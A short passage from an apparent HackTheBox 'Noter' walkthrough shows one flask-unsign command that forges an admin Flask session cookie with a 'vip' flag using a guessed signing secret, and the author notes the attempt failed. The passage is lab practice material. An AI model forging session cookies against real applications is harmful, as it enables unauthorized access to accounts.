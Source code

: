 
Let's try some guessing with the vip attribute (since we saw a /vip path on gobuster):

```bash
kali@kali:~/Desktop/HackTheBox/Noter$ flask-unsign --sign --cookie "{'logged_in': True, 'username': 'admin', 'vip': True}" --secret 'secret123'

eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYWRtaW4iLCJ2aXAiOnRydWV9.Ytww4g.LJeO12f59CbalJcxcMTGKjnHPzQ
```

The vip trick didn't work, it takes me out.

<p align="center">
  <img src="/images/walkthroughs/hackthebox/noter/4_0.png" width="70%"/>
</p>
